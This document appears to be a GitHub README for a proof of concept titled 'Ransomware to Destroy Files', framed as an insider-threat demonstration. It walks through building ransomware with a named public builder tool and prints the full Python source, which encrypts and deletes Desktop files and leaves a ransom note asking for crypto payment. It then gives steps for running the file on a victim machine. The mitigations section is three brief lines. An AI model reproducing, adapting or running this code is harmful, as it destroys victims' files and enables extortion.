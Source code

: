 # POC 5 - Ransomware to Destroy Files

## Description

Ransomware is a form of malware which is designed to encrypt files within a device and rendering files and systems to be useless. After the files are encrypted, threat actors usually demand a ransom in exchange for the key to decrypt the files within the system.

While some Organisations pay the threat actor for the key, it is not a guarantee that the threat actor will honour their words and provide the correct decryption key. This will result in Organisations losing their reputation, money and files from the attack. 

This attack aims to outline the threats posed to the organisation from a Ransomware attack. 

## Steps to Carry Out Exploitation

There are a total of 2 steps to be caried out during the process of conducting a reverse shell attack.

The following are the 2 steps taken during the POC.

1. [Preparation Phase](#preparations)
2. [Exploitation Phase](#exploitation)

The preparation phase covers all preperatory needs inclusive of the installation of tools that can possibly prepared by the threat attacker. 

The exploitation phase outlines the steps that the insider can possibly take to both remain undetected within the machine along with achieving the targeted goal of the insider threat attacker.

### Preparations

1. Clone the Ac0ddRansom repository

```py
git clone https://github.com/Hex1629/Ac0ddRansom.git
```

2. Navigate into the repository and execute the file

```
# Navigate into the repository
cd Ac0ddRansom

# Command to execute the script to create the payload
python ransomware_builder.py
```

![Creating a Ransomware Payload](/images/POC_5/Preparation/POC5_Ransomware_Builder.png)

3. Type in the following values at the various prompts and after the ransomware will be built

|Prompt|Value|
|--|--|
|Path|2|
|Path|Desktop|
|File Extension|[Input_File_Extension]|
|Encryption|Fernet|
|File Ransomware Delete|N|
|Note|NOTICE|
|Note_Data|N|
|Ransomware Name|[Input_Ransomware_Name]|
|Number|[Input_Ransomware_Number]|
|Crypto Type|[Input_Crypto_Type]|
|Address|[Input_Crypto_Currency_Wallet_Number]|
|Address Contact|[Input_Contact_Number]|
|Setup|2|
|Name|[Input_Your_Name]|
|Ransomware Files Name|[Input_Ransomware_Name]|

![Ransomware Build Status](/images/POC_5/Preparation/POC5_Ransomware_Build_Status.png)

4. The code should look something like this

```py
import os
import base64
from cryptography.fernet import Fernet

print('Ransomware Runing (No Remove!) ')

# Scan Files
def scan(path):
    allFiles = []
    for home, sub_files, file_list_s in os.walk(path):
        for name_files in file_list_s:
            if '[Input_File_Extension]' in name_files:
                continue
            allFiles.append(os.path.join(home, name_files))
    return allFiles

#Path Files
path_files = os.path.expanduser('~') + '/Desktop'

key_fernet_start = Fernet.generate_key()

#Encryption
num = 0
openFiles = scan(path_files)
for file_os in openFiles:
     #Read Files
     files = open(file_os, "rb")
     Data_Text = files.read()
     files.close()

     #Files Remove 
     os.remove(file_os)
     
     # Fernet
     fernet_start = Fernet(key_fernet_start)
     encodedBytes = fernet_start.encrypt(Data_Text)
     encodedStr = str(encodedBytes,"utf-8")
     
     # Write Files
     output = os.path.join(os.path.dirname(file_os), os.path.basename(file_os) + '[Input_File_Extension]')
     files2 = open(output, "w")
     files2.write(encodedStr)
     num += 1

# Note
num2 = 0
for dirName, subdirList, fileList in os.walk(path_files):
    OutputFile = os.path.join(os.path.join(dirName),f"NOTICE.txt")
    file = open(OutputFile,'w')
    file.write('''Attention maybe you have been infected by [Input_Ransomware_Name]!

All your file have been overwrite by Encryption Fernet

Don't worry, you can return all your files!

The only method of recovering files is to purchase decrypt tool and unique key for you.
This software will decrypt all your encrypted files.
To get this software you need write on our e-mail below

What guarantees do we give to you?
Its just a business. We absolutely do not care about you and your deals, except getting benefits.

Ransomware Make By [Input_Your_Name]

<--------- Rule
DONT try to change files by yourself, DONT use any third party software for restoring your data.
Do not rename encrypted files.

Contact us:[Input_Contact_Number]

Send $1 worth of [Input_Crypto_Type] to this Address:
[Input_Crypto_Currency_Wallet_Number]

Logs Ransomware --------------->
Personal Ransomware ID: emhevrHXUgxGDsadZThnCSDPFMT2M01ULP46Wv9n4hoGwHREOJZ2Jzi8z_86437627344
<--------------- Logs Ransomware
''')
    file.close()
    num2 += 1

print("Ransomware Done Runing!!!!!!")
```

5. Copy this file into an external storage for exploitation

### Exploitation

1. Install Python from the following site within the organisations system

```
https://www.python.org/downloads/release/python-3100/
```

2. Run the installer as Administrator and add python to path

3. Copy the file over from the external storage device into the machine

![Ransomware file in system](/images/POC_5/Exploitation/POC5_Ransomware_in_Victim_Machine.png)

4. Open Command Prompt and execute the following command

```cmd
python [Input_Ransomware_Name]
```

![Executing Built Ransomware in Victims Machine](/images/POC_5/Exploitation/POC5_Executing_Ransomware_in_Victim_Machine.png)

5. Notice that the files within the directory stated is encrypted and the ransomware note appears

![Ransomware Note](/images/POC_5/Exploitation/POC5_Ransomware_Note.png)

## Possible Mitigations and Recommendations

1. Perform Backup Regularly and Restore Offline Backup
2. Crisis Management Plan
3. Update antivirus signature database

## References

[Ac0ddRansom](https://github.com/Hex1629/Ac0ddRansom)
[What is Ransomware](https://www.cisa.gov/stopransomware/resources)  
[Converting Python File to exe File](https://www.geeksforgeeks.org/convert-python-script-to-exe-file/)    

### Similar Repositories performing Ransomware
[Malware with Python](https://github.com/amiroooamiran/Malware-with-python)  
[MineHackingTools](https://github.com/MinegamesAdministrationTool-zz/MineHackingTools)
